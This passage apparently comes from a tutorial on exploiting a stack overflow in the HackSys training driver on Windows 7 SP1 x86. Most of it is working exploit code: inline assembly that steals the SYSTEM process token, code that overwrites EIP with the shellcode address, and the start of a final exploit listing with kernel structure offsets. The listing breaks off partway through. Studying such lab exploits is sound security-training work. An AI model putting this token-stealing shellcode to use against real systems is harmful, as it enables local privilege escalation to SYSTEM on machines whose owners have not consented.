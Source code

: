 			mov eax, fs:[KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
			mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

			mov ecx, eax; Copy current _EPROCESS structure

			mov ebx, [eax + TOKEN_OFFSET]; Copy current nt!_EPROCESS.Token
			mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM Process PID = 0x4

		SearchSystemPID:
			mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

			mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
			mov[ecx + TOKEN_OFFSET], edx; Copy nt!_EPROCESS.Token of SYSTEM
			; to current process
			popad; restore registers state

			; recovery
			xor eax, eax; Set NTSTATUS SUCCEESS
			add esp, 12; fix the stack
			pop ebp
			ret 8
	}
}
</pre>
With our shellcode complete all we need to do is update the last 4 bytes of our lpInBuffer with the location of the shellcode so that when we overwrite EIP control flow will jump to the start of our shellcode.
<pre>
lpInBuffer[2080] = (DWORD)&TokenStealingShellcodeWin7 & 0x000000FF;
lpInBuffer[2080 + 1] = ((DWORD)&TokenStealingShellcodeWin7 & 0x0000FF00) >> 8;
lpInBuffer[2080 + 2] = ((DWORD)&TokenStealingShellcodeWin7 & 0x00FF0000) >> 16;
lpInBuffer[2080 + 3] = ((DWORD)&TokenStealingShellcodeWin7 & 0xFF000000) >> 24;
</pre>
This means our final code is:
<pre>
// HackSysDriverStackoverflowExploit.cpp : Exploits the STACK_OVERFLOW IOCTL on the HackSys driver to give us a root shell.
//

#include "stdafx.h"
#include &lt;stdio.h>
#include &lt;Windows.h>
#include &lt;winioctl.h>
#include &lt;TlHelp32.h>
#include &lt;conio.h>

// Windows 7 SP1 x86 Offsets
#define KTHREAD_OFFSET    0x124    // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET   0x050    // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET        0x0B4    // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET      0x0B8    // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET      0x0F8    // nt!_EPROCESS.Token
#define SYSTEM_PID        0x004    // SYSTEM Process PID
